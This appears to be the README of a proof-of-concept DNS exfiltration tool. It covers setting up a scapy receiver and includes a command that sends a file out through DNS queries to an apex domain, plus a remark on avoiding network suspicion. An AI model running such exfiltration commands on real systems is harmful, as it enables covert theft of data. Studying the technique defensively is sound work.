

# Dns Exfiltrator

A proof of concept to demonstrate extracting data from a host endpoint, over the network, using plaintext DNS



This proof of concept is run on two separate systems, the `DNS Exfilatrator`, and the receiver, noted as the `Authoritative DNS Server`

### Create virtual environment in linux

`python3 -m venv .venv`

Activate the virtual environment
`source .venv/bin/activate`

once in virtual environment...

Install the requirements. Server side makes use of scapy
```pip3 install -r requirements.txt```

If a module not found error is presented when running the `receiver.py`, then repeat the installation as `sudo`


### Start the server
(represented as "Authoritative DNS Server" in the diagram)

`python3 receiver.py --help` to get a help dialog

run as sudo
`sudo python3 receiver.py —-apexdomain apexdomain.com. -i ens5`

The receiver matches data coming in based on the apex domain. This should be specified with something like `example.com.` here, and `example.com` when running from the exfiltrator.


### For the client side (Dns_extractor)


In a separate terminal, send some data
`python3 exfiltrator.py -f smiley2.gif -d 1.1.1.1 -a example.com`


#### A note on zone delegations
The DNS exfiltrator can send its DNS query to any forwarder/resolver. If you specify any generic resolver and/or forwarder, that is where the query will be sent. If you do not setup a zone delegation for your domain, then the resolver will never find your proper DNS server. To get around this, you can specify explicitly with the `-d <receiver IP>` on the receiver end. But, it might look weird on a network if only one client is using a different DNS resolver.


#### Makes use of 
DNSPython tool: https://github.com/rthalley/dnspython
docs: https://dnspython.readthedocs.io/en/stable/installation.html
Scapy: https://scapy.net/